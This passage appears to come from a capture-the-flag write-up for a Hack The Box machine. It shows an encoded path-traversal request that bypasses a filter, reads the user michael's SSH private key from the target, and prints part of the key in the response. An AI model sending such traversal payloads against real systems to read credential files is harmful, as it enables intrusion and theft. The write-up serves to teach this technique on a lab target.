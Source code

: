 ![](/assets/images/htb-writeup-trick/trick05.png)

User `michael` seems like our guy! Note that he has UID 1001, and 1000 is no where to be seen - interesting! Look if michael has an `id_rsa` we can steal.

**Request:**
```bash
GET /index.php?page=%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2fhome%2fmichael%2f.ssh%2fid_rsa HTTP/1.1
Host: preprod-marketing.trick.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://preprod-marketing.trick.htb/index.php?page=contact.html
Upgrade-Insecure-Requests: 1
```

**Response:**
```bash
HTTP/1.1 200 OK
Server: nginx/1.14.2
Date: Mon, 20 Jun 2022 19:54:38 GMT
Content-Type: text/html; charset=UTF-8
Connection: close
Content-Length: 1823

-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABFwAAAAdzc2gtcn
NhAAAAAwEAAQAAAQEAwI9YLFRKT6JFTSqPt2/+7mgg5HpSwzHZwu95Nqh1Gu4+9P+ohLtz
c4jtky6wYGzlxKHg/Q5ehozs9TgNWPVKh+j92WdCNPvdzaQqYKxw4Fwd3K7F4JsnZaJk2G
YQ2re/gTrNElMAqURSCVydx/UvGCNT9dwQ4zna4sxIZF4HpwRt1T74wioqIX3EAYCCZcf+
4gAYBhUQTYeJlYpDVfbbRH2yD73x7NcICp5iIYrdS455nARJtPHYkO9eobmyamyNDgAia/
Ukn75SroKGUMdiJHnd+m1jW5mGotQRxkATWMY5qFOiKglnws/jgdxpDV9K3iDTPWXFwtK4
1kC+t4a8sQAAA8hzFJk2cxSZNgAAAAdzc2gtcnNhAAABAQDAj1gsVEpPokVNKo+3b/7uaC
DkelLDMdnC73k2qHUa7j70/6iEu3NziO2TLrBgbOXEoeD9Dl6GjOz1OA1Y9UqH6P3ZZ0I0
+93NpCpgrHDgXB3crsXgmydlomTYZhDat7+BOs0SUwCpRFIJXJ3H9S8YI1P13BDjOdrizE
hkXgenBG3VPvjCKiohfcQBgIJlx/7iABgGFRBNh4mVikNV9ttEfbIPvfHs1wgKnmIhit1L
```